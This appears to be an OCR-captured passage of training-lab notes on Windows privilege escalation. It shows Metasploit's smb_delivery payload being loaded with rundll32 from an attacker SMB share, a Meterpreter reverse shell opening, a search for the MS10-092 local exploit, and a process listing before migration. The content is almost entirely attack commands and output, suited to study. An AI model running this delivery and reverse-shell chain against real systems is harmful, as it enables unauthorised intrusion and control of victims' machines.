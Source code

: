 ```
[msf](Jobs:1 Agents:0) exploit(windows/smb/smb_delivery) >> rundll32.exe \\10.10.15.97\ZSEnI\test.dll,0

```

2) Rundll Command on Target Host

```
rundll32.exe \\10.10.15.97\ZSEnI\test.dll,0


```

3) Receiving Reverse Shell

```
msf6 exploit(windows/smb/smb_delivery) > [*] Sending stage (175174 bytes) to 10.129.43.15
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.43.15:49609) at 2021-05-12 15:55:05 -0400
```


1) https://www.exploit-db.com/exploits/19930

```
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338
use exploit/windows/local/ms10_092_schelevator
```

2) Migrate from 32 to 64-bit Process

```
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1

[*] Starting interaction with 1...

meterpreter > getpid

Current pid: 1916

meterpreter > ps

 1004  2740  conhost.exe  x64   2        WINLPE-2K8\htb-st  C:\Windows\System3
                                         udent              2\conhost.exe
 1028  456   spoolsv.exe
 1108  456   svchost.exe
 1184  456   VGAuthServi
             ce.exe
 1216  456   vmtoolsd.ex
             e
 1244  456   ManagementA
             gentHost.ex
             e
 1284  932   dwm.exe      x64   2        WINLPE-2K8\htb-st  C:\Windows\System3
                                         udent              2\dwm.exe
 1344  2848  vmtoolsd.ex  x64   2        WINLPE-2K8\htb-st  C:\Program Files\V
             e                           udent              Mware\VMware Tools
                                                            \vmtoolsd.exe
 1512  620   WmiPrvSE.ex
             e
 1652  456   svchost.exe
 1696  456   svchost.exe
 1752  1652  rdpclip.exe  x64   2        WINLPE-2K8\htb-st  C:\Windows\System3
                                         udent              2\rdpclip.exe
 1824  456   dllhost.exe
 1916  352   rundll32.ex  x86   2        WINLPE-2K8\htb-st  C:\Windows\SysWOW6
             e                           udent              4\rundll32.exe
 1960  456   msdtc.exe
```
